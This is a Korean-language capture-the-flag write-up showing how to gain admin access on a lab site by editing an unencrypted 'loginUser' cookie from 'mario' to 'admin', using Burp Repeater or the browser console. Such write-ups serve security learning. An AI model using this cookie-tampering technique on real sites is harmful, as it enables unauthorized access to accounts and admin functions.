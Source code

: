 # Get Admin

login 화면의 history
![1](https://user-images.githubusercontent.com/106296883/231322895-6eac2cc7-7690-4e0c-b71b-668c9d197044.PNG)

로그인
```
mario / mariosuper
```

로그인을 한 후에 HTTP History를 먼저 해석함.
![2](https://user-images.githubusercontent.com/106296883/231323751-4379a0dd-db07-4a2a-b5f9-791abdafa21b.PNG)

맨 위 history는 로그인 화면의 history이기 때문에 제외,   
4개의 history가 올라왔다.
```
POST 방식으로 입력을 해서 로그인을 하니까 
300번대 HTTP 상태 코드(리다이렉트)가 생겼다
어디론가 이동한다는 소리이다.
```
```
리다이렉트의 장소는 index.php이다.
그리고 mario에 해당하는 세션이 존재한다.
```
```
1  GET /2/index.php HTTP/1.1
2  Host: ctf.segfaulthub.com:1129
3  Cache-Control: max-age=0
4  Upgrade-Insecure-Requests: 1
5  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.50 Safari/537.36
6  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
7  Referer: http://ctf.segfaulthub.com:1129/2/login.php
8  Accept-Encoding: gzip, deflate
9  Accept-Language: ko-KR,ko;q=0.9,en-US;q=0.8,en;q=0.7
10 Cookie: loginUser=mario; session=11c4528c-8337-48fa-9246-9ddd32197c42.rZh7cyBmgTH2VkmxZscx4v-nWEE; PHPSESSID=rvoudoqj1ficipdmigc8hj7bkb
11 Connection: close
```
![3](https://user-images.githubusercontent.com/106296883/231325032-e3ba60df-1b16-4fb0-8970-a220fd401448.PNG)

이때 Cookie를 주의해서 봐야 한다.   
일반적인 Cookie의 sessionID의 값들은 암호화가 된 상태로 cookie가 전송하지만,   
loginUser 이라는 데이터에는 암호화가 되지 않고 mario라는 user라는 것을 알아차릴 수 있는 정보를 포함하고 있다.   

그렇다면 이떄 loginUser의 값을 admin으로 바꿔본다면?

바꾸는 방법 1
```
index.php에 해당하는 history를 우클릭해서 "Send to Repeater" 클릭.
```
```
loginUser=mario; 를 
loginUser=admin; 으로 변경
```
```
Send 클릭
```
```
Response 에서 Render 를 통해 확인.
```
![4](https://user-images.githubusercontent.com/106296883/231325997-d2f13627-1bc1-43fb-ad38-ab37af3d699a.PNG)
</br>
</br>
</br>

바꾸는 방법 2
```
F12 눌러서 개발자 도구를 들어가서   
Console 창에서 cookie를 확인할 수 있는 명령어 입력.
```
```
document.cookie 입력

결과 : 'loginUser=mario; PHPSESSID=rvoudoqj1ficipdmigc8hj7bkb'
```
```
document.cookie = 'loginUser=admin;' 입력

결과 : 'loginUser=admin;'
```
```
document.cookie 입력해서 결과에 loginUser의 정보가 제대로 수정되었는지 확인 후
```
![5](https://user-images.githubusercontent.com/106296883/231326978-bc3a5b13-079d-435c-90f2-200ae48f44c4.PNG)
```
F5 새로고침
```
![6](https://user-images.githubusercontent.com/106296883/231327076-ff4ae134-f96f-40e2-9aa9-174aacda8290.PNG)
